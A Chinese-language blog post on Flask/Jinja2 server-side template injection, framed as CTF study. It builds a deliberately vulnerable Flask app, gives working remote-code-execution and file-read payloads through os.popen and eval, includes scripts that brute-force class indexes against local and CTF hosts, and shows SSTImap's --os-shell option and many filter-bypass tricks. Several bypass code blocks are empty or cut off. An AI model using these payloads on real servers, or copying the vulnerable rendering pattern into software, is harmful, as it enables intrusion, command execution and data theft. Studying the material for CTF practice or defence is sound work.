




+++
title = "浅析flask中的SSTI漏洞"
slug = "flask-ssti-vulnerability-analysis"
description = "SSTI吗"
date = "2024-09-01T09:51:44"
lastmod = "2024-09-01T09:51:44"
image = ""
license = ""
categories = ["talk"]
tags = ["flask", "ssti"]
+++

# 0x01 前言

或许这里说成是flask并不妥当，因为仅仅只是讲解了`jinja`这种常用的`SSti`漏洞,但是其实`payload`都是大同小异，那就这样吧

# 0x02 question

## 概念

SSTI（Server-Side Template Injection，服务器端模板注入）漏洞是一种网络安全漏洞，发生在应用程序将不受信任的数据直接传递给服务器端模板引擎时。通过这种漏洞，攻击者可以在服务器端执行任意代码，导致数据泄露、系统被攻陷等严重后果。

## 原理

服务器端模板引擎用于生成动态内容，通常在网页应用程序中使用。开发者使用模板引擎的语法嵌入变量和逻辑控制结构，从而生成动态的 HTML 或其他格式的输出。也就是说渲染的时候,处理并不规范,导致产生了`SSTI`漏洞

## payload构造

这里我们起一个实验环境

```python
from flask import Flask
from flask import request
from flask import render_template_string

app=Flask(__name__)

@app.route('/',methods=['GET','POST'])         
def index():
    template=''' 
    <p>Hello %s </p>'''%(request.args.get('name'))
    return render_template_string(template)      # 渲染为html内容

if __name__ == '__main__':          # 如果作为脚本运行，而不是被当成模块导入
    app.run(host='0.0.0.0')
```

启动之后,就可以开始实验啦

直接看常用的无过滤`payload`

```
{{().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__builtins__['eval']("__import__('os').popen('tac /f*').read()")}}

()     当前对象

x.__class__       x对应类    

__bases__        所有基类
 
x.__subclasses__          x的所有子类             

__init__      进行初始化
__init__.__globals__           全局的方法、类以及模块
__builtins__          包含eval的模块
```

那么从这里来看我们的思路就是

> 拿基类 -> 找子类 -> 构造命令执行或者文件读取负载 -> 拿 flag 是 python 模板注入的正常流程。

**怎么拿基类**

```
().__class__.__bases__[0]:
这个属性返回的是一个元组，包含了当前类的所有直接基类。如果一个类只继承自一个基类，这个元组将只包含一个元素；如果有多个基类（即多继承），元组中则会有多个元素，分别对应这些直接基类。这适用于了解一个类的多继承结构。

().__class__.__base__:
相比之下，这个属性返回的是单个对象，即当前类的单一直接基类。在单继承的情况下，这与().__class__.__bases__[0]得到的结果相同。但是，如果一个类是多继承的，使用__base__只会提供第一个直接基类的信息，忽略了其他基类。这意味着它更适合于简单继承结构的查询
```



拿到基类之后再去拿子类

```
().__class__.__bases__[0].__subclasses__()
显示出所有子类
```



然后找出相应的类再来继续即可

```python
search = 'popen'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num +=1
    try:
        if search in i.__init__.__globals__.keys():
            print(i,num)
    except:
        pass
# <class 'os._wrap_close'> 161
# <class 'os._AddedDllDirectory'> 162
```

但是这是本地运行的，在其中我们应该自己寻找，通过逗号的搜索发现处于`132`位



这里是133，但是索引是从0开始的



但是这个本地查找的方法可能不是那么的`beautiful`对吧

```python
import requests
headers = {
    'User-Agent': 'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0'
}
for i in range(500):
    url = "http://127.0.0.1:5000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"
    res = requests.get(url=url, headers=headers)
    if 'os.py' in res.text:
        print(i)
```

利用这个脚本可以跑出当前环境所有你想要的

```
().__class__.__bases__[0].__subclasses__()[194].__init__.__globals__["os"].popen('ls /').read()
```

寻找`eval`

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"

    res = requests.get(url=url, headers=headers)
    if 'eval' in res.text:
        print(i)
```

```
().__class__.__bases__[0].__subclasses__()[194].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("tac /f*").read()')
```

这个`payload`理论上来说应该是最实用的，但是呢，太长了

直接找`popen`

```python
import requests
headers = {
    'User-Agent': 'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0'
}
for i in range(500):
    url = "http://6312ef4a-251a-46c9-b8c3-e8dbfcee660d.challenge.ctf.show/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"
    res = requests.get(url=url, headers=headers)
    if 'popen' in res.text:
        print(i)
```

```
().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__["popen"]('ls /').read()
```

这里基本就理清`payload`怎么来的了

## 工具

### sstimap

```shell
git clone https://github.com/vladko312/SSTImap.git

cd SSTImap

pip install requirements.txt

./sstimap.py 
# 检测
./sstimap.py -u https://6312ef4a-251a-46c9-b8c3-e8dbfcee660d.challenge.ctf.show/?name
# getshell
./sstimap.py -u https://6312ef4a-251a-46c9-b8c3-e8dbfcee660d.challenge.ctf.show/?name --os-shell
```

支持的模板引擎

| 模板引擎                       | 远程代码执行 | 盲注 | 代码评估   | 文件读取 | 文件写入 |
| ------------------------------ | ------------ | ---- | ---------- | -------- | -------- |
| Mako                           | ✓            | ✓    | Python     | ✓        | ✓        |
| Jinja2                         | ✓            | ✓    | Python     | ✓        | ✓        |
| Python (code eval)             | ✓            | ✓    | Python     | ✓        | ✓        |
| Tornado                        | ✓            | ✓    | Python     | ✓        | ✓        |
| Nunjucks                       | ✓            | ✓    | JavaScript | ✓        | ✓        |
| Pug                            | ✓            | ✓    | JavaScript | ✓        | ✓        |
| doT                            | ✓            | ✓    | JavaScript | ✓        | ✓        |
| Marko                          | ✓            | ✓    | JavaScript | ✓        | ✓        |
| JavaScript (code eval)         | ✓            | ✓    | JavaScript | ✓        | ✓        |
| Dust (<= dustjs-helpers@1.5.0) | ✓            | ✓    | JavaScript | ✓        | ✓        |
| EJS                            | ✓            | ✓    | JavaScript | ✓        | ✓        |
| Ruby (code eval)               | ✓            | ✓    | Ruby       | ✓        | ✓        |
| Slim                           | ✓            | ✓    | Ruby       | ✓        | ✓        |
| ERB                            | ✓            | ✓    | Ruby       | ✓        | ✓        |
| Smarty (unsecured)             | ✓            | ✓    | PHP        | ✓        | ✓        |
| Smarty (secured)               | ✓            | ✓    | PHP        | ✓        | ✓        |
| PHP (code eval)                | ✓            | ✓    | PHP        | ✓        | ✓        |
| Twig (<=1.19)                  | ✓            | ✓    | PHP        | ✓        | ✓        |
| Freemarker                     | ✓            | ✓    | Java       | ✓        | ✓        |
| Velocity                       | ✓            | ✓    | Java       | ✓        | ✓        |
| Twig (>1.19)                   | ×            | ×    | ×          | ×        | ×        |
| Dust (> dustjs-helpers@1.5.0)  | ×            | ×    | ×          | ×        | ×        |

### fenjing

```shell
pip install fenjing

python -m fenjing webui

# python -m fenjing scan --url 'http://xxxx:xxx'

```

但是这个貌似是只能用于`jinja`,不过非常好用

## bypass

这里主要就是使用过滤器和一些手法了

### 单双引号

```
request.args.x

[request.args.x]&x=__builtins__       等同于['__builtins__']
(request.args.x)&x=open('/flag').read     等同于("open('/flag').read")

request.cookies.x
?name={{config.__class__.__init__.__globals__[request.cookies.x1].eval(request.cookies.x2)}}
cookie:
x1=__builtins__;x2=__import__('os').popen('tac /f*').read()
```

这两者差不多

### `[ ]`

```
用魔术方法__getitem__来代替方括号

__globals__.__getitem__('__builtins__')      是等效的      __globals__['__builtins__']

__bases__.__getitem__(0)         和         __bases__[0]

__globals__.__getitem__(request.cookies.x1)   cookie:x1=__builtins__;
相当于
__globals__['__builtins__']
```

### `.`

用方括号

```
config['__class__']['__bases__'][0]       相当于config.__class__.__bases__[0]
```

用过滤器

```
(config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__'))(request.cookies.x1)  cookie:x1=__builtins__
相当于
config.__class__.__init__.__globals__.__getitem__('__builtins__')
再而config.__class__.__init__.__globals__['__builtins__']
```

### 大括号

利用`{%print()}`

```

等价于
{{config.__class__.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
```

利用`for 和if`

```


{{().__class__.__base__.__subclasses__()[132].__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
```

### `_`

直接用request.cookies.x或者request.args.x来绕过

用16进制编码

```
config['\x5f\x5fclass\x5f\x5f']   相当于  config.__class__
```

还有利用`jinja`框架的编码直接写出下划线的

```

```

这个过程我们更加具体一些，首先

```
(): 这是一个空的元组。
|select: 这是Jinja2中的过滤器，通常用于从序列中选择元素。
|string: 这个过滤器通常用于将值转换为字符串。
|list: 这个过滤器通常用于将值转换为列表。
.pop(24): 这是Python中列表的一个方法，用于移除并返回列表中的指定索引位置的元素。
```

是不是清晰了很多,怎么说呢相当于截取吧

### 数字

分为length和count都一样，就是根据键的数量来判定

#### count

```
{{(dict(e=a)|join|count)}}
```

一样的分析，首先dict会根据传值创建键值对

```
诶那么在jinja中
|join: 这是Jinja2中的过滤器，通常用于将列表中的元素连接成一个字符串。

|count 计算字符串 '(f, value)' 中的字符数量
```

也就是说逐渐增加键的数量即可满足拼接出数字

```
{{dict(f=a,a=b).keys()|count}}   #2       也是等效的
```

```
   # 3

   # 2
```

#### length

```
   #0

{{(dict(e=a)|join|length)}}      #1

{{(dict(e=a,po=b)|join|length)}}      #3
```

### 利用`~`和`|int`

```
|int     用来整数型转换

~    用来链接字符串 相当于加
```


```
  为24
```

### 拼接关键字

#### set

```
          //拼接出pop
         //拼接出_
          //拼接出__init__
       //拼接出__globals__
		//拼接出__getitem__
		//拼接出__builtins__
		
		//使用chr类来进行RCE因为等会要ascii转字符
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}	//拼接出/flag

```

#### `~`

```
{{config.__init__.__globals__['__buil'~'tins__'].eval("__imp"~"ort__('os').popen('ls /').read()")}}


```

## 常用payload

```
1、任意命令执行

2、任意命令执行
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls /').read()}}
//这个138对应的类是os._wrap_close，只需要找到这个类的索引就可以利用这个payload
3、任意命令执行
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
4、任意命令执行
{{x.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls /').read()}}
//x的含义是可以为任意字母，不仅仅限于x
5、任意命令执行
{{config.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
6、文件读取
{{x.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__'].open('app.py','r').read()}}
对应类为_frozen_importlib._ModuleLock
//x的含义是可以为任意字母，不仅仅限于x
```

# 0x03 小结

终于总结完了，这里还是总结了一会，把常用的过滤器和姿势也写了点例子，会了这些，也不用`demo`来说明了，基本上大部分都打得通，不对的地方，还是希望各位师傅斧正哇
